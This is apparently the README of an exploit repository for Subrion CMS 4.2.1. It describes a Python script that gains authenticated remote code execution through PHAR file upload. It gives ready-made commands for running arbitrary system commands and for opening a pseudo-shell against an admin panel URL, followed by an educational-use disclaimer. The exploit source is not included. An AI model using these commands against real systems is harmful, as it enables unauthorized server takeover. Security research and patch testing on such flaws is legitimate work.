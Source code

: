 # Subrion 4.2.1 PHAR File Upload

A python3 script for Subrion 4.2.1 PHAR File Upload Authenticated Remote Code Execution (RCE)

## Getting Started

### Executing program

* RCE
```
python3 subrion_4.2.1.py -t http://subrionrce.com/subrion/panel/ -u admin -p password -rce whoami
```
* Pseudo-shell
```
python3 subrion_4.2.1.py -t http://subrionrce.com/subrion/panel/ -u admin -p password -shell
```

## Help

For help menu:
```
python3 subrion_4.2.1.py -h
```

## Disclaimer
All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.